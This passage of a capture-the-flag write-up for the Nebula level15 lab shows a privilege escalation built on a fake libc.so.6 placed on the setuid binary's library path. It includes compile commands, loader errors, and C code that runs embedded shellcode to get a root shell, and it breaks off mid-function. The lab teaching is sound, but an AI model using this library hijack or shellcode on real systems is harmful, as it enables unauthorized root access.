 We can compile to a shared library like this : `gcc -shared -fPIC -o /var/tmp/flag15/libc.so.6 libc.c`.

If we run the binary flag we get some errors :

```bash
./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by ./flag15)
./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
./flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

To get rid of the relocation error, we add a trivial definition for  `_cxa_finalize`:

```c
void __cxa_finalize(void * d)
{
	return;
}

int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
	return 0;
}
```

But we still have an error :

```bash
./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by ./flag15)
Inconsistency detected by ld.so: dl-lookup.c: 169: check_match: Assertion `version->filename == ((void *)0) || ! _dl_name_match_p (version->filename, map)' failed!
```

This comes from the fact that glibc has versionned symbols, and the binary flag is requiring a specific version of the library. As we don't have such versions in our fake library, relocation isn't loading. We can look the version of  `__libc_start_main` in the original libc library :

```bash
level15@nebula:~$ readelf -a /lib/i386-linux-gnu/libc.so.6 | grep "__libc_start_main"
  2206: 00019020   450 FUNC    GLOBAL DEFAULT   12 __libc_start_main@@GLIBC_2.0
```

We can pass some options to the linker so that it will add a default version for every symbols that is not versioned. This is done like this : `gcc -shared -fPIC -Wl,-soname,GLIBC_2.0,--default-symver -o /var/tmp/flag15/libc.so.6 libc.c`.

We now have to create the exploit. As we have replaced the libc library, it will be difficult to use all the standard C function, such as `system()`, `exec()`, and so on. To circumvent this, we can use a pre-compiled shellcode exploit that we cast as a function and execute. The final file looks like this :

```c
const char code[] = "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80";

void __cxa_finalize(void * d)
{
	return;
}

int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
		int (*funct)();
		funct = (int(*)())code;
		(int)(*funct)();
		return 0;
```